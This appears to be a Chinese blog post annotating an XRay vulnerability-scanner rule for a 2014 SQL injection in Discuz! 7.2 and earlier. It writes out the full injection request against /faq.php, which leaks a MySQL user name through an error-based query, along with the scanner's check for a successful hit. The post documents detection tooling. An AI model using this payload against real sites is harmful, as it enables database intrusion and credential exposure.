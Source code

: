 ```yaml
---
layout:       post
title:        "XRay POC配置"
subtitle:     "null"
date:         2020-12-24 15:52:34
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: false
tags:
    - WebSec
---
```



# 0x00 POC 配置来源

[github.com/chaitin/xray/tree/master/pocs](https://github.com/chaitin/xray/tree/master/pocs)

---

# 0x01 discuz-v72-sqli _(2014)_

- **配置整理**：

    > ## rules:  //由规则（Rule）组成的列表  
    >   - **method: `GET`**
    >
    > ```sql
    >     path: >- #请求的完整 Path，包括 querystring 等
    >         /faq.php
    >             ?action=grouppermission
    >             &gids[99]='
    >             &gids[100][0]=) and (
    >                 select 1 from (
    >                     select
    >                         count(*),
    >                         concat(
    >                             (
    >                                 select concat(user,0x3a,md5(1234),0x3a)
    >                                 from mysql.user limit 0,1  # user1:81dc9bdb52d04dc20036dbd8313ed055:
    >                             ),
    >                             floor(rand(0)*2)
    >                         )x
    >                     from information_schema.tables group by x
    >                 )a
    >             )#
    >
    >     follow_redirects: false
    >     expression: > #判断该条 Rule 的结果，使用CEL表达式（https://github.com/google/cel-spec（这不是Google的官方产品））
    >         response.status == 200  #返回包status等于200
    >             && response.body.bcontains(b"81dc9bdb52d04dc20036dbd8313ed055")  #且body中包含内容（字节流（bytes），因为 body 是一个 bytes 类型的变量）“81dc9bdb52d04dc20036dbd8313ed055”
    >             && response.body.bcontains(b"Discuz! info</b>: MySQL Query Error")
    > ```
    >
    > ## detail: //需要返回给 xray 引擎的内容，如果无需返回内容，可以忽略  
    >   author: leezp  
    >   **Affected Version: "discuz <=v7.2"**  
    >   vuln_url: "/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20"  